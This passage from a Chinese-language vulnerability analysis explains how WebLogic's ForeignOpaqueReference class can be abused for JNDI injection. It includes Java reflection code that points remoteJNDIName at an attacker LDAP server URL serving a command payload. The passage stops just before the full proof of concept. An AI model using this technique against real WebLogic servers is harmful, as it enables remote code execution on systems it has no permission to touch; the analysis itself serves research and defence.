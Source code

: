 这个第一个参数`boundObject`是远程绑定的对象，如果这个对象继承或实现了`OpaqueReference`接口则会调用这个对象的`getReferent()`方法

漏洞利用的是 weblogic.deployment.jms.ForeignOpaqueReference 这个类

在这个类的`getReferent()`方法中实现了 JNDI 的初始化上下文和对象查询

![image-20240221171006374](assets/1709255451-79180408dec63284ef2a5cb69d937ec7.png)

![image-20240221171226078](assets/1709255451-c0cbebaa411a1b15de442e4736c4bc7c.png)

如果可以控制这个类的`this.jndiEnvironment`和`this.remoteJNDIName`就能造成 JNDI 注入

这个可以通过反射修改

```java
ForeignOpaqueReference f = new ForeignOpaqueReference();  
Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");  
jndiEnvironment.setAccessible(true);  
jndiEnvironment.set(f, env2);  
Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");  
remoteJNDIName.setAccessible(true);  
String ldap = "ldap://192.168.1.12:1389/Basic/Command/calc";  
remoteJNDIName.set(f, ldap);
```

最后 poc 如下：
